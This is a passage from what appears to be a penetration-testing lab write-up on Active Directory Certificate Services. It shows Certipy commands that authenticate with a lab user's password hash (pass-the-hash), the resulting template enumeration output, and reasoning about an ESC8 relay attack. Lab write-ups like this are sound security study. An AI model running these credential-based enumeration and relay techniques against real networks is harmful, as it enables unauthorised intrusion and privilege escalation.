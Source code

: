 To find out more about these ADCS server and their configured templates, I employed the Certipy utility. It enumerated all certificate templates and their configuration.

```
# certipy find -u eddard.stark@north.sevenkingdoms.local -hashes :d977b98c6c9282c5c478be1d97b237b8 -target 10.2.10.10 -ns 10.2.10.10 -output recon/sevenkingdoms_adcs

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Trying to get CA configuration for 'SEVENKINGDOMS-CA' via CSRA
[!] Got error while trying to get CA configuration for 'SEVENKINGDOMS-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'SEVENKINGDOMS-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'SEVENKINGDOMS-CA'
[*] Saved BloodHound data to 'recon/sevenkingdoms_adcs_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[-] Could not find user 'EDDARD.STARK'
[-] Got error: 'NoneType' object has no attribute 'get'
[-] Use -debug to print a stacktrace

# certipy find -u eddard.stark@north.sevenkingdoms.local -hashes :d977b98c6c9282c5c478be1d97b237b8 -target 10.2.10.12 -ns 10.2.10.12 -output recon/essos_adcs

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 38 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 16 enabled certificate templates
[*] Trying to get CA configuration for 'ESSOS-CA' via CSRA
[!] Got error while trying to get CA configuration for 'ESSOS-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'ESSOS-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'ESSOS-CA'
[*] Saved BloodHound data to 'recon/essos_adcs_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[-] Could not find user 'EDDARD.STARK'
[-] Got error: 'NoneType' object has no attribute 'get'
[-] Use -debug to print a stacktrace
```

For some reason my Certipy was refusing to spit out the text file with the `-text` attribute so I had to browse the JSON files instead.

The `SEVENKINGDOMS` ADCS server only exposed the `DOMAINCONTROLLER` and `DOMAINCONTROLLERAUTHENTICATION` templates which may be of use. If I was able to coerce DC authentication and relay it to a vulnerable web enrollment service on the ADCS server, then I may be able to execute ESC8. However, I noticed that the ADCS server and the DC are the same host, and relaying authentication from a host to itself will not work. So that path is no gucci.
